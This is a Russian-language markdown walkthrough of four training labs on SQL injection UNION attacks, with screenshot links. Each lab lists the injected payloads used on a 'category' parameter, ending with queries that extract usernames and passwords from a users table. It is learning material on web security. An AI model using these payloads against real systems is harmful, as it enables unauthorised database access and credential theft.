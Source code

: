  **Lab: SQL injection UNION attack, determining the number of columns returned by the query **
 
 Изменяем category, чтобы добавить дополнительный столбец, содержащий нулевое значение:'+UNION+SELECT+NULL,NULL--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_2.PNG)
 
**Lab: SQL injection UNION attack, finding a column containing text**
 
 Меняем значение category '+UNION+SELECT+NULL-- , Происходит ошибка:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_1.PNG)
Меняем значение category на '+UNION+SELECT+NULL,NULL,NULL-- 
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_2.PNG)
Работает)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_3.PNG)
 
 Lab: SQL injection UNION attack, retrieving data from other tables
 
 Убеждаемся в том, что запрос возвращает два столбца, оба из которых содержат текст, используя полезную нагрузку , как в следующем в параметре категории: '+UNION+SELECT+'abc','def'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+username,+password+FROM+users-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_4.PNG)
 
 Lab: SQL injection UNION attack, retrieving multiple values in a single column
 
 Убеждаемся, что запрос возвращает два столбца, только один из которых содержит текст, используя полезную нагрузку, подобную следующей в categoryпараметре:'+UNION+SELECT+NULL,'abc'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_4.PNG)
 
